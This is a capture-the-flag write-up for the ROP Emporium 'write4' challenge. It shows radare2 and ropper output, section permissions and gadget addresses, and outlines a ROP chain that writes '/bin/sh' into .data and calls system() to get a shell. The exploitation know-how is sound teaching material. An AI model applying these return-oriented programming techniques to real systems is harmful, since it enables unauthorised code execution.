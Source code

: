 # write4

On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string `/bin/cat flag.txt` is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.


## Read & Write

The important thing to realise is that ROP is just a form of arbitrary code execution and if we're creative we can leverage it to do things like write to or read from memory. The question is what mechanism are we going to use to solve this problem, is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as `mov [reg], reg`. Nonetheless it is possible to solve this challenge by leveraging functions like `fgets()` to write to memory locations of your choosing so it's worth trying to do it that way once you've solved it using the intended technique.


## What & Where

Perhaps the most important thing to consider in this challenge is __where__ we're going to write our string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose. Consider how much space each section might give you to work with and whether corrupting the information stored at these locations will cause you problems later if you need some kind of stability from this binary.


## Decisions, decisions

Once you've figured out how to write your string into memory and where to write it, go ahead and call `system()` with its location as your only argument. Are you going to cat flag.txt or drop a shell with `/bin/sh`? Try to wrap some of your functionality in helper functions, if you can write a 4 or 8 byte value to a location in memory, can you craft a function (in python using pwntools for example) that takes a string and a memory location and returns a ROP chain that will write that string to your chosen location? Crafting templates like this will make your life much easier in the long run.


There are indeed three very different ways to solve the 64 bit version of this challenge, including the intended method. Built-in functionality will give you a win if you're willing to borrow a technique from the 'pivot' challenge and an oversight in how the `pwnme()` function was constructed can get you a shell in a single link chain 🤫

```
t0thkr1s@kali ~/Downloads> rabin2 -I write4
arch     x86
baddr    0x400000
binsz    7150
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```

## Reverse Engineering

```
t0thkr1s@kali ~/Downloads> r2 write4
[0x00400650]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00400650]> afl
0x00400650    1 41           entry0
0x00400610    1 6            sym.imp.__libc_start_main
0x00400680    4 50   -> 41   sym.deregister_tm_clones
0x004006c0    4 58   -> 55   sym.register_tm_clones
0x00400700    3 28           entry.fini0
0x00400720    4 38   -> 35   entry.init0
0x004007b5    1 82           sym.pwnme
0x00400600    1 6            sym.imp.memset
0x004005d0    1 6            sym.imp.puts
0x004005f0    1 6            sym.imp.printf
0x00400620    1 6            sym.imp.fgets
0x00400807    1 17           sym.usefulFunction
0x004005e0    1 6            sym.imp.system
0x004008a0    1 2            sym.__libc_csu_fini
0x004008a4    1 9            sym._fini
0x00400830    4 101          sym.__libc_csu_init
0x00400746    1 111          main
0x00400630    1 6            sym.imp.setvbuf
0x004005a0    3 26           sym._init
[0x00400650]> s sym.usefulFunction
[0x00400807]> pdf
┌ 17: sym.usefulFunction ();
│           0x00400807      55             push rbp
│           0x00400808      4889e5         mov rbp, rsp
│           0x0040080b      bf0c094000     mov edi, str.bin_ls         ; 0x40090c ; "/bin/ls" ; const char *string
│           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
│           0x00400815      90             nop
│           0x00400816      5d             pop rbp
└           0x00400817      c3             ret
[0x00400807]>
```

Checking the `sym.usefulFunction` reveals that there's a systemcall, but it calls `/bin/ls`. So the goal is to write `/bin/sh\x00` somewhere in the binary, and use the `system()` to execute the string.

## Checking Section Permissions

As you can see, we have read and write permissions on the `.data` section.

```
0x00400807]> iS
[Sections]

nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- 
1   0x00000238   0x1c 0x00400238   0x1c -r-- .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- .note.ABI_tag
3   0x00000274   0x24 0x00400274   0x24 -r-- .note.gnu.build_id
4   0x00000298   0x30 0x00400298   0x30 -r-- .gnu.hash
5   0x000002c8  0x120 0x004002c8  0x120 -r-- .dynsym
6   0x000003e8   0x74 0x004003e8   0x74 -r-- .dynstr
7   0x0000045c   0x18 0x0040045c   0x18 -r-- .gnu.version
8   0x00000478   0x20 0x00400478   0x20 -r-- .gnu.version_r
9   0x00000498   0x60 0x00400498   0x60 -r-- .rela.dyn
10  0x000004f8   0xa8 0x004004f8   0xa8 -r-- .rela.plt
11  0x000005a0   0x1a 0x004005a0   0x1a -r-x .init
12  0x000005c0   0x80 0x004005c0   0x80 -r-x .plt
13  0x00000640    0x8 0x00400640    0x8 -r-x .plt.got
14  0x00000650  0x252 0x00400650  0x252 -r-x .text
15  0x000008a4    0x9 0x004008a4    0x9 -r-x .fini
16  0x000008b0   0x64 0x004008b0   0x64 -r-- .rodata
17  0x00000914   0x44 0x00400914   0x44 -r-- .eh_frame_hdr
18  0x00000958  0x134 0x00400958  0x134 -r-- .eh_frame
19  0x00000e10    0x8 0x00600e10    0x8 -rw- .init_array
20  0x00000e18    0x8 0x00600e18    0x8 -rw- .fini_array
21  0x00000e20    0x8 0x00600e20    0x8 -rw- .jcr
22  0x00000e28  0x1d0 0x00600e28  0x1d0 -rw- .dynamic
23  0x00000ff8    0x8 0x00600ff8    0x8 -rw- .got
24  0x00001000   0x50 0x00601000   0x50 -rw- .got.plt
25  0x00001050   0x10 0x00601050   0x10 -rw- .data
26  0x00001060    0x0 0x00601060   0x30 -rw- .bss
27  0x00001060   0x34 0x00000000   0x34 ---- .comment
28  0x00001ae2  0x10c 0x00000000  0x10c ---- .shstrtab
29  0x00001098  0x768 0x00000000  0x768 ---- .symtab
30  0x00001800  0x2e2 0x00000000  0x2e2 ---- .strtab
```

It looks the binary is passing `/bin/ls` to the `system()` function call.

```
[0x004007b5]> s sym.usefulFunction
[0x00400807]> pdf
┌ 17: sym.usefulFunction ();
│           0x00400807      55             push rbp
│           0x00400808      4889e5         mov rbp, rsp
│           0x0040080b      bf0c094000     mov edi, str.bin_ls         ; 0x40090c ; "/bin/ls" ; const char *string
│           0x00400810      e8cbfdffff     call sym.imp.system         ; int system(const char *string)
│           0x00400815      90             nop
│           0x00400816      5d             pop rbp
└           0x00400817      c3             ret
[0x00400807]>
```

Now we have to find gadgets that will allow us to place that string into the section. I’m going to use `ropper` once again.


```
t0thkr1s@darlene ~/Downloads> ropper -f write4 --search 'pop rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: write4
0x0000000000400893: pop rdi; ret; 

t0thkr1s@darlene ~/Downloads>
```

But what exactly are we looking for? Firstly, we have to find a gadget that will place value at memory address. In assembly this operation looks like this `MOV [R0], R1`, which directly translates to move value from register `R1` to memory at address held by register `R0`.
The best candidate would gadget at address `0x0000000000400820` which is `mov qword ptr [r14], r15; ret;` So we can now place a value into memory, but we also need to place values into these registers with `pop`, which we can do with this gadget `pop r14; pop r15; ret;` at addtess `0x0000000000400890`. Now to finally finish collecting addresses, we have to come back and get the address of system() and in order to place the address of the string as the argument to this call, pop rdi will be needed. This gadget can be found at address 0x0000000000400893.

Great, now we can start writing our exploit.

Use `pop` gadget to place the address of our string, and string in registers
Use `mov` gadget to place the string into the memory at provided address
Use `pop rdi` gadget to place the address of the string into register.
Call address of `system()` which uses `rdi` as the argument register holding address of our string.

